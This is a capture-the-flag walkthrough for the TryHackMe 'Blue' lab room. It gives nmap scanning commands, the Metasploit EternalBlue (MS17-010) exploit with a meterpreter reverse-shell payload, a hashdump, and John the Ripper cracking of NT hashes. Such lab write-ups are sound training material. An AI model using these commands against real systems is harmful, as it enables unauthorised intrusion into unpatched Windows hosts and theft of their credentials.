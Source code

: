 # Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## **Walkthrough**

### **Recon**

`nmap -A 10.10.68.22`

``<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="original">``

The box is vulnerable to ms17-010

`nmap -p135,139,445,3389 --script=vuln 10.10.68.22`

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

### Gain Access / Escalate



`msfconsole`&#x20;

`search eternalblue`&#x20;

`use exploit/windows/smb/ms17_010_eternalblue`&#x20;

`set payload windows/x64/meterpreter/reverse_tcp`&#x20;

`set RHOSTS 10.10.68.22`&#x20;

`run`

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### Cracking

`hashdump`

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

### Flags

Just ran this to find the locations of all the flags then grabbed them

`cd C:\`

`dir "flag*" /s`

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
